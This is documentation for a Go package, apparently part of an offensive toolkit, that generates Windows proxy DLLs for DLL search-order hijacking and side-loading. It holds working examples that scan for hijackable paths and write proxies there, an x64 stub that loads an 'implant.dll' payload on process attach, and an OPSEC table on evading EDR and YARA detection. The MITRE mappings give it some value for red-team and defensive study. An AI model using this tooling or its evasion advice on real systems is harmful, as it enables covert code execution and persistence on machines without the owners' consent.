

# DLL Proxy Generator

[← PE techniques](README.md) · [docs/index](../../index.md)

**MITRE ATT&CK:** [T1574.001 — DLL Search Order Hijacking](https://attack.mitre.org/techniques/T1574/001/) · [T1574.002 — DLL Side-Loading](https://attack.mitre.org/techniques/T1574/002/)
**D3FEND:** [D3-PFV — Process File Verification](https://d3fend.mitre.org/technique/d3f:ProcessFileVerification/)
**Detection level:** very-quiet (offline emitter)

---

## TL;DR

Pure-Go emitter that produces a valid Windows DLL forwarding every export to a legitimate target via the GLOBALROOT absolute-path trick. No MSVC, no MinGW, no toolchain — `[]byte` in, `[]byte` out. Pair with `recon/dllhijack` for end-to-end discovery + payload-write hijack chains, runnable from any host.

Two emission modes:

- **Forwarder-only** (`Options.PayloadDLL == ""`): single `.rdata` section, no DllMain. Invisible at runtime once loaded; the real target executes as if loaded directly.
- **+ Payload load** (`Options.PayloadDLL = "evil.dll"`): adds a `.text` section with a 32-byte x64 stub that `LoadLibraryA(payload)` on `DLL_PROCESS_ATTACH`, plus an import directory referencing `kernel32!LoadLibraryA`.

---

## Primer

A DLL hijack works when a victim program loads a DLL from a path the operator can write. The classic problem: writing a working DLL there required either (a) hand-coding C++ + linker pragmas + an MSVC toolchain, or (b) shipping a pre-built proxy and hoping the export set matches.

`pe/dllproxy` collapses this: hand it the target's name and its export list, get back a complete PE that, when loaded, transparently forwards every call to the real System32 copy. The forwarder uses an absolute path (`\\.\GLOBALROOT\SystemRoot\System32\<target>.<export>`) so the proxy does not recurse into itself even when deployed alongside the legitimate DLL — the *perfect proxy* trick from `mrexodia/perfect-dll-proxy`.



---

## How It Works

The forwarder-only mode produces a minimal PE32+ image with a single `.rdata` section. No `.text`, no `.idata`, `AddressOfEntryPoint = 0` — Windows accepts this layout (a DLL with no entry point loads silently without invoking DllMain, per the PE spec).

The payload-load mode adds a `.text` section with the DllMain stub, an import directory in `.rdata` referencing `kernel32!LoadLibraryA`, and the payload-name string the stub feeds to `LoadLibraryA`.

### File layout

```text
+0x000  DOS header (60 bytes)            e_lfanew = 0x40
+0x040  PE signature "PE\0\0"
+0x044  COFF File Header (20)            Machine = 0x8664, NumberOfSections = 1
+0x058  Optional Header PE32+ (240)      Magic = 0x20B, ImageBase = 0x180000000,
                                          AddressOfEntryPoint = 0,
                                          DllCharacteristics = NX_COMPAT
+0x148  Section Header (40)              ".rdata", flags 0x40000040
+0x170  pad zero to FileAlignment 0x200
+0x200  .rdata content
```

### `.rdata` content (RVA = 0x1000)

```text
+0       IMAGE_EXPORT_DIRECTORY (40)
+40      AddressOfFunctions[N]            uint32 each — RVA into the same .rdata,
                                           pointing at a forwarder string
+40+4N   AddressOfNames[N]                uint32 — RVA to export name string
+40+8N   AddressOfNameOrdinals[N]         uint16 — identity map (i → i)
+40+10N  DLL name string                  "<targetName>\0"
…        forwarder strings                "\\.\GLOBALROOT\SystemRoot\System32\target.dll.<export>\0"
…        export name strings              "<export>\0"
```

### Forwarder detection

The Windows loader detects a forwarder by RVA range: an export is a forwarder iff its `AddressOfFunctions[i]` value falls **inside** the `IMAGE_DIRECTORY_ENTRY_EXPORT.VirtualAddress … +Size` range. The emitter sizes the data directory to span the entire `.rdata` content, so every forwarder string sits inside the range automatically.

### Sorting

Windows performs a binary search on `AddressOfNames` when resolving exports by name. The emitter sorts the input list alphabetically before laying out the tables — `AddressOfNameOrdinals[i]` is always `i`, the identity map.

---

## API Reference

```go
type Machine uint16
const (
    MachineAMD64 Machine = 0x8664 // PE32+, default and only Phase 1 target
    MachineI386  Machine = 0x14c  // Phase 3, not yet implemented
)
func (m Machine) String() string

type PathScheme int
const (
    PathSchemeGlobalRoot PathScheme = iota // \\.\GLOBALROOT\SystemRoot\System32\target — default
    PathSchemeSystem32                     // C:\Windows\System32\target — recurses if deployed in System32
)
func (p PathScheme) String() string

type Options struct {
    Machine    Machine    // zero → MachineAMD64
    PathScheme PathScheme // zero → PathSchemeGlobalRoot
    PayloadDLL string     // when set, embed a DllMain that LoadLibraryA's it
}

func Generate(targetName string, exports []string, opts Options) ([]byte, error)
```

Sentinel errors (use `errors.Is`):

```go
var (
    ErrEmptyExports     // no exports supplied
    ErrEmptyTargetName  // blank target name
    ErrI386NotSupported // Phase 3
)
```

---

## Examples

### Simple — bake a proxy for `version.dll`

```go
import (
    "os"

    "github.com/oioio-space/maldev/pe/dllproxy"
    "github.com/oioio-space/maldev/pe/parse"
)

f, _ := parse.Open(`C:\Windows\System32\version.dll`)
exports, _ := f.Exports()
proxy, _ := dllproxy.Generate("version.dll", exports, dllproxy.Options{})
_ = os.WriteFile(`C:\writable\dir\version.dll`, proxy, 0o644)
```

### Composed — find an opportunity and bake a matching payload

```go
opps, _ := dllhijack.ScanAll(nil)
for _, opp := range opps {
    f, err := parse.Open(opp.LegitimatePath)
    if err != nil { continue }
    exports, _ := f.Exports()
    f.Close()

    proxy, err := dllproxy.Generate(opp.MissingDLL, exports, dllproxy.Options{})
    if err != nil { continue }

    _ = os.WriteFile(opp.HijackedPath, proxy, 0o644)
}
```

### Advanced — DllMain payload load

```go
proxy, err := dllproxy.Generate(
    target,
    exports,
    dllproxy.Options{PayloadDLL: "implant.dll"},
)
```

The proxy now contains a tiny x64 entry point that runs once on `DLL_PROCESS_ATTACH`:

```text
cmp edx, 1                       ; fdwReason == DLL_PROCESS_ATTACH ?
jne ret_true
sub rsp, 28h                     ; Win64 shadow space + 16-byte align
lea rcx, [rip+payload_string]    ; LPCSTR lpLibFileName
call qword ptr [rip+iat_loadlibrarya]
add rsp, 28h
ret_true:
mov eax, 1
ret
```

The Windows loader resolves the IAT slot for `kernel32!LoadLibraryA` before our entry point runs, so the indirect call lands directly in `kernel32`. Failure of `LoadLibraryA` is silent — the proxy still returns TRUE, the legitimate forwarders still work, the only signal is the absence of the payload.

### Advanced — alternate path scheme

`PathSchemeSystem32` produces shorter, more readable forwarder strings but **recurses into self if deployed in System32**. Safe only for hijack opportunities outside System32 (almost all real ones).

```go
proxy, err := dllproxy.Generate(
    "credui.dll",
    exports,
    dllproxy.Options{PathScheme: dllproxy.PathSchemeSystem32},
)
```

---

## OPSEC & Detection

| Phase | Telemetry | Counter |
|---|---|---|
| Emission (offline) | None — pure Go, no syscalls, no file opens. | N/A |
| File write to opportunity path | File create event under `<writable dir>\<dllname>` matches D3-PFV signatures (DLL appearing in non-canonical path next to a PE that imports it). | Drop into a path the EDR doesn't actively watch; randomise drop time. |
| Process load | `\\.\GLOBALROOT\SystemRoot\System32\…` paths in image-load events stand out — most legitimate DLLs are loaded by short module name only. | Use `PathSchemeSystem32` when System32 redirection is not a concern. |
| Forwarder strings on disk | YARA / static-analysis tools matching the GLOBALROOT prefix. | Hex-rotate / RC4 the strings at emission time, decrypt at DllMain (Phase 2 + obfuscation, future work). |

---

## MITRE ATT&CK

| T-ID | Name | D3FEND counter |
|---|---|---|
| [T1574.001](https://attack.mitre.org/techniques/T1574/001/) | Hijack Execution Flow: DLL Search Order Hijacking | [D3-PFV](https://d3fend.mitre.org/technique/d3f:ProcessFileVerification/) |
| [T1574.002](https://attack.mitre.org/techniques/T1574/002/) | Hijack Execution Flow: DLL Side-Loading | [D3-PFV](https://d3fend.mitre.org/technique/d3f:ProcessFileVerification/) |

---

## Limitations

- **AMD64 only**. 32-bit targets need a different optional-header size (224 vs 240) + `PE32` magic. Tracked as Phase 3.
- **Named exports only**. Ordinal-only and COM-private exports (`DllRegisterServer`, `DllGetClassObject`) are skipped — Phase 3 work.
- **No CheckSum / no DOS stub**. Windows tolerates both; signed DLLs would need a recomputed checksum, which is out of scope (use `pe/cert` if signing is in play).
- **Forwarder paths are plaintext** in `.rdata` — easy YARA target. String obfuscation is a Phase 2 candidate.

---

## See also

- [`recon/dllhijack`](../recon/dll-hijack.md) — discovery side of the same chain
- [`pe/parse`](../../../pe/parse) — extracts the input export list
- `mrexodia/perfect-dll-proxy` — original GLOBALROOT path trick (C++/Python)
- `namazso/dll-proxy-generator` — Rust binary tool we're matching the output shape of
